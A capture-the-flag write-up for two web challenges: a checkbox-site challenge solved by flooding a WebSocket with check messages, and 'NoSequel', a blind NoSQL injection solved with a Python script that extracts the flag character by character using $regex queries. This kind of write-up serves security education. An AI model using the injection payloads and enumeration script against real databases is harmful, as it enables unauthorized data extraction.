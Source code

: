 The site is 2 million check boxes. Once they are all checked you get the flag. I look at the source and see the webserver uses websockets to communicate the state of the checkboxes. Websockets keep a constant connection so I can run this in the web browser console:
```javascript
const ws = new WebSocket('ws://' + window.location.host + '/ws');

ws.onopen = function() {
    const allNumbers = Array.from({length: 2000000}, (_, i) => i);
    // check
    ws.send(JSON.stringify({
        action: 'check',
        numbers: allNumbers
    }));
    ws.send(JSON.stringify({ action: 'get_state' }));
};
```
I need to kinda time this. If I refreshed the page too early sometimes only 1 million boxes would be checked. I finally refreshed once and got the flag.

___
## NoSequel

Web - Author: @HuskyHacks  
  
It always struck me as odd that none of these movies ever got sequels! Absolute cinema.  
  
**Press the `Start` button on the top-right to begin this challenge.**

The `/search` endpoint is vulnerable to NoSQL injection. 

`{"$ne": null}` causes the error: `Error in movie search: unknown top level operator: $ne`.

`{"$where": "sleep(100)"}` causes the error: `Error in movie search: The $where operator is not implemented in mongomock yet`.

I find that this `flag: {$regex: flag}` returns a match but it prints no flag. I can use this as a check and enumerate the flag. I think this is blind NoSQL injection.
{% raw %}
```python
import requests
import string
import re

url = "http://challenge.nahamcon.com:30850/search"
flag = "flag{"
chars = string.ascii_letters + string.digits

while not flag.endswith("}"):
    for c in chars:
        query = f"flag: {{$regex: ^{re.escape(flag + c)}}}"
        response = requests.post(url, data={
            "query": query,
            "collection": "flags"
        })
        if "Pattern matched" in response.text:
            flag += c
            print(f"Progress: {flag}")
            if c == "}":
                print(f"\nFLAG FOUND: {flag}")
                exit()
            break
    else:
        print("No match :(")
        break
```
{% endraw %}
After some time I have the flag.